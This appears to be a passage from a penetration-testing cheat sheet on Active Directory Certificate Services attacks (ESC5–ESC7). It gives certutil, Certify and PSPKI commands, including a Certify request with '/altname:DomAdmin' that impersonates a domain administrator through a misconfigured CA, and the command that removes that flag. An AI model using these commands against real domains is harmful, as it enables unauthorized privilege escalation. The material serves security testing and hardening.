 

### Vulnerable PKI Object ACEs (ESC5)

- [https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c)



### EDITF_ATTRIBUTESUBJECTALTNAME2 (ESC6)

> If this flag is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

This means that an adversary can enroll in **any** template configured for domain authentication that also allows unprivileged users to enroll (e. g., the default `User` template) and obtain a certificate that allows to authenticate as a domain admin or any other active user/machine.

Discover with certutil:

```
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -getreg "policy\EditFlags"
Or
Cmd > reg.exe query \\CA01.megacorp.local\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CorpCA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags
```

Discover with Certify:

```
Cmd > .\Certify.exe find
```

To abuse request a certificate specifying an `/altname` with any template that allows for domain auth (e. g., the default `User` template which normally doesn't allow to specify alternative names):

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:User /altname:DomAdmin
```

This setting can be set with domain admin's privileges like this (*dangerous, do not do this!*):

```
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -setreg "policy\EditFlags" +EDITF_ATTRIBUTESUBJECTALTNAME2
```

Remove this setting:

```
Cmd > certutil.exe -config "CA01.megacorp.local\CorpCA" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2
```



### Vulnerable CA ACEs (ESC7)

Enumarate CA ACEs with Powershell [PSPKI](https://github.com/PKISolutions/PSPKI):

```
PS > Install-Module -Name PSPKI
PS > Import-Module PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-CertificationAuthorityAcl | select -ExpandProperty access
```
